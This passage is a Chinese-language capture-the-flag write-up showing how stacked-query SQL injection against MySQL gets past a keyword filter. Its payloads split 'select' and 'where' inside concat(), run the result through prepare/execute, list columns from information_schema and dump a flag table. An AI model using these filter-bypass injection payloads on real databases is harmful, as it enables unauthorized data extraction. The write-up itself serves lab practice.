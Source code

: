 注意点就是mysql没有双引号，所以concat中需要使用单引号。同时从运行结果可以知道，一共存在两张表
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/db3th3vdzn9.png" width="600px" />

#### 使用堆叠查询，查询表的字段
1. 查询1919810931114514

```sql
use information_schema;
set @sql1=concat('sel','ect group_concat(column_name) from columns wh','ere table_name=\'1919810931114514\'');
prepare stmt from @sql1;
execute stmt;
```


这里值得注意的就是concat函数中，如果还需要加上单引号。
有以下几种做法：
1. 需要对单引号使用转义符号。
2. 使用两个单引号代替一个单引号
运行结果 存在flag表
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/oh0m951g0dm.png" width="600px" />

#### 使用报错注入获取数据库的名称

####  使用堆叠查询，查询表的内容

```sql
set @sql1=concat('sel','ect group_concat(flag) from `1919810931114514` ');
prepare stmt from @sql1;
execute stmt;
```


值得注意的是，数字名称的表需要使用`来进行保护
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/ak021zj6nt9.png" width="1000px" />
获取到flag解题完全
